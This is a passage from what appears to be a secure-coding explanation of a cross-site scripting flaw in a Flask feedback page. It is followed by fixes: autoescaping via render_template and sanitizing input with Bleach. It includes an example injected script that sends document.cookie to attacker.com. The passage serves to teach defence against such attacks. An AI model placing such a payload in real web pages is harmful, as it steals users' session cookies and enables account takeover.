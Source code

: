 2. **Rendered HTML Sent to Users:**
   ```html
   <div class="mt-4">
       <h4>Your feedback:</h4>
       <p>
           <script>
               // Malicious script to steal cookies
               fetch('https://attacker.com/steal', {
                   method: 'POST',
                   body: document.cookie
               });
           </script>
       </p>
   </div>
   ```

3. **Execution:**
   - The malicious script runs in the user's browser, sending their cookies to the attacker's server.

---

## **Best Practices to Prevent Such Vulnerabilities**

1. **Use `render_template` Instead of `render_template_string`:**
   - **Why:** `render_template` automatically enables autoescaping, ensuring that user input is safely escaped before rendering.
   - **Implementation:**
     ```python
     from flask import Flask, request, render_template
     
     app = Flask(__name__)
     
     @app.route('/', methods=['GET', 'POST'])
     def index():
         feedback = ''
         if request.method == 'POST':
             feedback = request.form.get('feedback', '')
         return render_template('index.html', feedback=feedback)
     ```

2. **Enable and Verify Autoescaping:**
   - **Ensure Autoescaping is Enabled:** Jinja2 autoescaping should be enabled by default for HTML templates. Always verify that it's active.
   - **Avoid Disabling Autoescaping:** Unless absolutely necessary, do not disable autoescaping.

3. **Input Validation and Sanitization:**
   - **Validate Input:** Restrict the type and format of data users can submit. For textual data, limit length and remove disallowed characters.
   - **Sanitize Output:** Use libraries like `Bleach` to sanitize user input, stripping out or encoding potentially harmful content.
     ```python
     import bleach
     
     @app.route('/', methods=['GET', 'POST'])
     def index():
         feedback = ''
         if request.method == 'POST':
             raw_feedback = request.form.get('feedback', '')
             feedback = bleach.clean(raw_feedback)
         return render_template('index.html', feedback=feedback)
     ```
